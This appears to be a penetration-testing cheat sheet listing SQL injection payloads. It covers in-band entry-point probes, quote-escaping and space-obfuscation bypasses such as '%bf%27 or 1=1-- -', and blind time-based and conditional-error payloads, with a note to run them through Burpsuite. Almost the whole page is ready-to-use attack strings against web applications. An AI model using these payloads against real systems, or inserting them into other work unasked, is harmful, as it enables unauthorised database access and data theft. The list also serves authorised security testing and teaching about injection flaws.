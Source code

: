 # Entry point (SQLi)

## In-band

{% tabs %}
{% tab title="Entry point" %}
```sql
'
"
1 <QUERY>
-1 <QUERY>
1' <QUERY>
1" <QUERY>
` <QUERY>
1') <QUERY>
1") <QUERY>
1`) <QUERY>
1')) <QUERY>
1")) <QUERY>
1`)) <QUERY>
-1' <QUERY>
# Use the following payloads in Burpsuite:
'%09or%091=1--%09- # Obfuscate spaces by tabs in URL Encode
'||1=1# # We do not use spaces and use the hastag (#).

# Obfuscate the quotation mark. By using the string \xBF (encoded in the
# URL as %bf%27), it is possible to obtain a single quotation mark that will
# not be properly escaped:
%bf%27 or 1=1-- -

# Confirming with logical operations
1 or 1=1-- - # true
and 1=2-- - # false
or 1=2-- - # false
-1 and 1=1-- - # false, generating an error
```
{% endtab %}

{% tab title="Queries" %}
{% hint style="warning" %}
Use LIMIT if you see an error-based SQL injection.
{% endhint %}

```sql
or 1=1-- -
or '1'='1-- -
or '1'='1
or 1=1;-- -
or "1"="1-- -
or 1=1 LIMIT 1;-- - # Test from 1 to 5.
or 1=1 LIMIT 0,1-- -
```
{% endtab %}
{% endtabs %}

## Blind

{% hint style="info" %}
Replace the tag `<SLEEP>` with the sleep function that corresponds to the DBMS type.
{% endhint %}

```bash
# Time:
' || <SLEEP>
' || <SLEEP>-- -
' AND <SLEEP>-- -
or <SLEEP>
' <SLEEP>-- -
# Conditionals errors:
' || (SELECT '') ||'
' || (SELECT '') ||'-- -
|| (SELECT '') ||'-- -
' || (SELECT '' FROM DUAL) ||'-- -
(select(0)from(select(sleep(0)))v)
```

